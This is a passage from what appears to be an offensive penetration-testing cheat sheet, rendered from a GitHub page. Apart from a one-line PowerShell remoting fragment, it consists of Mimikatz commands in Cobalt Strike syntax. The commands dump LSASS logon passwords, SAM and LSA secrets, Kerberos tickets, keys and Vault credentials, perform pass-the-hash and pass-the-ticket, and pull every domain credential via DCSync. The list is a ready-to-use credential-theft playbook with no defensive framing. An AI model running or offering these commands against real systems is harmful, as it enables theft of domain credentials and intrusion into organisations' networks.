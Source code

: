   ```powershell

  #Check the result of the command to confirm we have an interactive session
  Invoke-Command -Session $sess -ScriptBlock {$ps}
  ```
### Mimikatz
  ```
  #The commands are in cobalt strike format!
  
  #Dump LSASS:
  mimikatz privilege::debug
  mimikatz token::elevate
  mimikatz sekurlsa::logonpasswords
  
  #(Over) Pass The Hash
  mimikatz privilege::debug
  mimikatz sekurlsa::pth /user:<UserName> /ntlm:<> /domain:<DomainFQDN>
  
  #List all available kerberos tickets in memory
  mimikatz sekurlsa::tickets
  
  #Dump local Terminal Services credentials
  mimikatz sekurlsa::tspkg
  
  #Dump and save LSASS in a file
  mimikatz sekurlsa::minidump c:\temp\lsass.dmp
  
  #List cached MasterKeys
  mimikatz sekurlsa::dpapi
  
  #List local Kerberos AES Keys
  mimikatz sekurlsa::ekeys
  
  #Dump SAM Database
  mimikatz lsadump::sam
  
  #Dump SECRETS Database
  mimikatz lsadump::secrets
  
  #Inject and dump the Domain Controler's Credentials
  mimikatz privilege::debug
  mimikatz token::elevate
  mimikatz lsadump::lsa /inject
  
  #Dump the Domain's Credentials without touching DC's LSASS and also remotely
  mimikatz lsadump::dcsync /domain:<DomainFQDN> /all
  
  #List and Dump local kerberos credentials
  mimikatz kerberos::list /dump
  
  #Pass The Ticket
  mimikatz kerberos::ptt <PathToKirbiFile>
  
  #List TS/RDP sessions
  mimikatz ts::sessions
  
  #List Vault credentials
  mimikatz vault::list
  ```
  